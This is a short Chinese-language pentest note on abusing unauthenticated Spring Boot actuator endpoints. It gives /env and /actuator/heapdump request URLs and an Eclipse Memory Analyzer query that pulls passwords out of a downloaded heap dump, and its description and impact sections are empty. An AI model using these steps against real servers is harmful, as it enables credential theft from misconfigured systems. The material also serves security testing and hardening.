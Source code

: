 Spring Boot 提取内存密码
========================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

> 访问如下路径如果有数据说明存在漏洞

**Spring Boot 1.x版本**`http://www.0-sec.org:8090/env`

**Spring Boot 2.x版本**`http://www.0-sec.org:8090/actuator/env`![2.png](./.resource/SpringBoot提取内存密码/media/rId24.png)

> 当发现存在未授权漏洞时，可以直接访问 `/actuator/heapdump`
> 下载内存，提取密码

`http://www.0-sec.org:8090/actuator/heapdump`

> heapdump文件下载完成之后可以利用Eclipse Memory Analyzer 来解析内存文件

    http://www.eclipse.org/mat/downloads.php

> 匹配内存中password字符串，并不一定能匹配完，可以通过`/actuator/env`得到的`JDBC`信息再来匹配关键字

`select * from java.util.Hashtable$Entry x WHERE (toString(x.key).contains("password"))`

![1.png](./.resource/SpringBoot提取内存密码/media/rId25.png)

